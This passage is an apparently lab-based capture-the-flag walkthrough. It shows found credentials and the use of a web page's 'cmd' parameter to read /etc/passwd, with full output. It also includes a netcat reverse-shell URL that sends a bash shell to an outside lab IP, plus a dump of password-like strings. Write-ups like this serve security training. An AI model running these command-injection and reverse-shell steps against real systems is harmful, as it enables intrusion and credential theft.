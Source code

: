 Username: jackinthebox
Password: TplFxiSHjY

Is it ssh password?

let's try
NO result!!!!

7.
now try this username and password in /recovery.php
we landed a page :

http://10.10.171.81:22/nnxhweOV/index.php

it tells us :
GET me a 'cmd' and I'll run it for you Future-Jack.

So tried to run some cmd command:
http://10.10.171.81:22/nnxhweOV/index.php?cmd=cat%20/etc/passwd

got following:

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false uuidd:x:104:109::/run/uuidd:/bin/false Debian-exim:x:105:110::/var/spool/exim4:/bin/false messagebus:x:106:111::/var/run/dbus:/bin/false statd:x:107:65534::/var/lib/nfs:/bin/false avahi-autoipd:x:108:114:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin jack:x:1000:1000:jack,,,:/home/jack:/bin/bash jack:x:1000:1000:jack,,,:/home/jack:/bin/bash


Now we will try to run a reverse shell:

http://10.10.126.208:22/nnxhweOV/index.php?cmd=nc%2010.18.1.224%204445%20-e%20/bin/bash

got a reverse shell. But logged in as www-data.

in the /home/directory found a file 

*hclqAzj+2GC+=0K
eN<A@n^zI?FE$I5,
X<(@zo2XrEN)#MGC
,,aE1K,nW3Os,afb
ITMJpGGIqg1jn?>@
0HguX{,fgXPE;8yF
sjRUb4*@pz<*ZITu
[8V7o^gl(Gjt5[WB
yTq0jI$d}Ka<T}PD
Sc.[[2pL<>e)vC4}
9;}#q*,A4wd{<X.T
M41nrFt#PcV=(3%p
GZx.t)H$&awU;SO<
.MVettz]a;&Z;cAC
2fh%i9Pr5YiYIf51
TDF@mdEd3ZQ(]hBO
v]XBmwAk8vk5t3EF
9iYZeZGQGG9&W4d1
8TIFce;KjrBWTAY^
SeUAwt7EB#fY&+yt
n.FZvJ.x9sYe5s5d
8lN{)g32PG,1?[pM
